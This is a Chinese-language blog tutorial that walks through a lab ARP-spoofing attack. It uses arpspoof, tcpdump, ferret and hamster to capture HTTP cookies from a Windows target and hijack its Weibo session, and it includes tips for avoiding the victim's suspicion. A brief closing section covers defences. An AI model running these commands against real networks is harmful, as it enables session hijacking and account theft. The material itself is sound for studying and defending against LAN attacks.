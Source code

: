 ```yaml
---
typora-root-url: ../
layout:     post
title:      内网安全之 ARP 欺骗
subtitle:   内网姿势系列
author:     gsfish
date:       2016-06-23 21:32 +0800
header-img: img/post-bg-kali.jpg
tags:
 - 内网安全
 - 渗透
---
```



# 0x00 实验环境

```
网关：
192.168.1.1
 
攻击者：  
IP: 192.168.1.110
OS: Kali Linux (VirtualBox)

靶机：
IP: 192.168.1.105
OS: Windows 10 Home
```


# 0x01 基本思路

1. 首先通过 ARP 欺骗使靶机与网关间的数据包经由攻击者主机转发
2. 等待目标用户进行登陆操作，抓取 HTTP 数据包
3. 解析所抓取的数据包，并提取出 Cookie
4. 将 Cookie 导入浏览器，从而实现劫持目标用户的会话


# 0x02 工具准备

## 安装 ferret

除 `ferret` 的其他 3 个工具已经集成在 Kali 中了，我们要自行安装 `ferret`（64 位 Kali 需要增加对 32 位程序的支持才能在源中找到它）。这个工具连同 `hamster` 是由一个名叫 [Robert Graham](https://github.com/robertdavidgraham) 的黑客开发的。

增加包管理器对 32 位程序的支持，更新源并安装工具：

```
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install ferret-sidejack
```

## 开启 IP 转发

使用 arpspoof 进行 ARP 欺骗前需要开启本机的 IP 转发（这个临时的，重启后会失效），不然目标用户在攻击期间会无法上网，从而起疑。

```
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```


# 0x03 攻击过程

## 进行 ARP 欺骗

```
sudo arpspoof -i eth0 -t 192.168.1.105 192.168.1.1
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.105

说明：
-i  所用的网卡设备名
-t  攻击目标的 IP（由于是单向的，所以需要开启两个）
```

![01.png](/img/lan-attack-cookie-hijack/01.png)

![02.png](/img/lan-attack-cookie-hijack/02.png)

这两个窗口在攻击过程中要一直保持。然后进入靶机，打开命令提示符：

`arp -a`

![03.png](/img/lan-attack-cookie-hijack/03.png)

可以看到 ARP 缓存表中网关的 MAC 已经变成攻击者的了，取得初步胜利~

## 抓取 HTTP 数据包

```
sudo tcpdump -i eth0 tcp port 80 and host 192.168.1.105 -w cookie.cap

说明：
-i  所用的网卡设备名
-w  生成数据包的名称
tcp port 80 and host 192.168.1.105  抓取通过 192.168.1.105:80 的数据包
```

等待目标用户登陆网站或访问任何登陆后的页面，于是就可以抓到含有 Cookie 的 HTTP 数据包了。过一段时间后停止抓取（这只能抓取 HTTP 流量，如果网站启用了 HTTPS 就需要采用新的姿势了，例如 SSLstrip）。

![04.png](/img/lan-attack-cookie-hijack/04.png)

在家目录下会生成一个 `cookie.cap` 文件，这就是我们一直在抓的数据包了。然而现在我们还看不懂其中的内容，需要用 `ferret` 来解析一下。

## 解析 cookie.cap

```
ferret -r cookie.cap

说明：
-r  读取数据包并将其解析，生成 hamster.txt
-i  所用的网卡设备名（其实 ferret 也有抓包的功能）
```

![05.png](/img/lan-attack-cookie-hijack/05.png)

此时数据包中的内容已被解析并保存到了家目录中的 `hamster.txt`。

## 加载 Cookie 模拟登陆

直接运行即可：

```
hamster
```

`hamster` 是一个十分高效的工具，直接输入命令即可打开。虽然 Firefox 的一些插件自定义 Cookie，但 `hamster` 能很方便地把我们生成的 `hamster.txt` 中的 Cookie 信息自动导入到浏览器中：

![06.png](/img/lan-attack-cookie-hijack/06.png)

打开浏览器，设置代理为 `127.0.0.1`，端口 `1234`：

![07.png](/img/lan-attack-cookie-hijack/07.png)

在地址栏输入 `127.0.0.1:1234`。点击 `192.168.1.105`，接着出现以下页面：

![08.png](/img/lan-attack-cookie-hijack/08.png)

在左侧栏我们看到了 `http://weibo.com/...`。点击链接，成功利用目标用户的 Cookie 登陆器其新浪微博。把这个地址复制到地址栏后就可以正常使用其微博的所有功能啦：

![09.png](/img/lan-attack-cookie-hijack/09.png)


# 0x04 防御 ARP 欺骗

如果你平时大部分时间使用的都是公共网络，而你的身边恰好有人喜欢搞过安全，那就别浏览那些比较私密的东西啦。同时这也告诉我们，最好不要使用机场、餐厅这些公共场合的 WIFI 进行一些登陆的操作（除非使用了 VPN）。

关于 ARP 攻击的防范方面，主机和路由器都需要进行相关设置的。路由器要在管理页面设置 MAC 绑定，而主机方面可以通过 `arp -s` 这个命令将网关的 IP 与 MAC 进行绑定。

同学 [@yungkcx](https://github.com/yungkcx) 刚好写了一篇相关的博客，在此安利一波：

[https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html](https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html)


# 参考资料

1. http://www.cnblogs.com/anka9080/p/arpspoof.html
